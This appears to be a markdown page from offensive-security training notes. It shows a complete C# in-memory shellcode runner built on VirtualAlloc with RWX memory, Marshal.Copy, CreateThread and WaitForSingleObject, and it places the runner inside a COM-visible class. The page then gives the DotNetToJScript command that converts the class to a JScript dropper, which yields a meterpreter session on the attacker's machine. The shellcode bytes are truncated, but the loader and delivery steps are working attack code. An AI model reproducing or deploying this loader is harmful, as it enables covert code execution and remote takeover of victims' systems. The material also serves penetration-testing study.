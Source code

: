 ## The ol' trilogy 
 We can reuse the shellcode runner technique from both VBA and PowerShell and combine _VirtualAlloc_, _CreateThread_, and _WaitForSingleObject_ to execute shellcode in memory.

 We start by importing the 3 Win32 APIs with DLLImport.

 ```C#
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, 
    uint flProtect);

[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
    IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

We then generate our shellcode and store it in a variable.
We then use _Marshal.Copy_ method to copy our shellcode:
 ```C#
byte[] buf = new byte[626] {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8...

int size = buf.Length;

IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

Marshal.Copy(buf, 0, addr, size);
```

And finish off by using _CreateThread_ and _WaitForSingleObject_ API to finish the execution:
```C#
IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

WaitForSingleObject(hThread, 0xFFFFFFFF);
```

## Placement
For the placement for the above pieces of code it would look something like as follows:
```C#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
      uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    

	public TestClass()
    {
        byte[] buf = new byte[602] {
        0xfc,0x48,.....0xff,0xd5 };

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}


```

We then compile the binary as jscript:
```cmd
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```

Executing the shell we get a meterpreter session on our attack machine:
![js-shell-ret](../../../Screenshots/js-shell-ret.png)